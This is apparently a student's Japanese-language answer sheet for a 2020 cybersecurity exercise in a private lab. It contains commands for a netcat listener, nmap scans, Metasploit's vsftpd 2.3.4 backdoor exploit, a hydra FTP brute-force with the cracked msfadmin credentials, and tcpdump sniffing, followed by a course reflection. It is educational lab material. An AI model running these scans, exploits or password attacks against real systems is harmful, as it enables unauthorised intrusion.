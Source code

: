 # CyberSecurity I Exam 2020 回答用紙

## 問1 [netcat]

### サーバー側コマンド

```sh
# ここに回答を記述
nc -lvp 5555
```
### クライアント側コマンド

```sh
# ここに回答を記述
nc 192.168.33.10 5555
```

## 問2 [Password Crack]

```md
<!--  ここに回答を記述 -->

```

## 問3 [Port Scanner]

### 1. ping scan

```sh
# ここに回答を記述
nmap -sP 192.168.33.0-127
```

### 2. version scan

```sh
# ここに回答を記述
sudo nmap -sV -O -p- 192.168.33.5
```

## 問4 [Metasploit Framework]

```sh
# ここに回答を記述
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.33.5
show options
exploit
```

## 問5 [Online Password Cracker]


### 1. コマンド

```sh
# ここに回答を記述
hydra -L user.list -P passwd.list -t 8 192.168.33.5 ftp
```

### 2. 解析結果

```sh
# ここに回答を記述
login:msfadmin   password:msfadmin
```

## 問6 [Packet Sniffer]

```sh
# ここに回答を記述
sudo tcpdump dst port 80
```

## 問7 [不正アクセス]

### 1. rootアクセスの件数

```md
<!--  ここに回答を記述 -->

```

### 2. 不正アクセスユーザーのTOP3

```md
<!--  ここに回答を記述 -->

```
### 3. IPアドレスのアクセス件数と発信国

```md
<!--  ここに回答を記述 -->

```

## 問8 [自己評価]

```md
<!--  ここに回答を記述 -->
50点
```

## 問9 [講義の感想]

```md
<!--  ここに回答を記述 -->
同じネットワークでのチャットができることを学んだ
弱いところを探すことを学んだ
弱いところに侵入することを学んだ
パスワードやユーザーを調べることを学んだ

感想
この授業が始まる前から難しそうと思っていて、授業が始まってやってみたらやっぱり難しかった。
だけど、ほんとうにハッキングやパスワード解析ができて、とても面白かったです。
先生の余談の話や、ハッキングの仕方が意外と地味っだたのにおどろいたし、面白かったです。
```
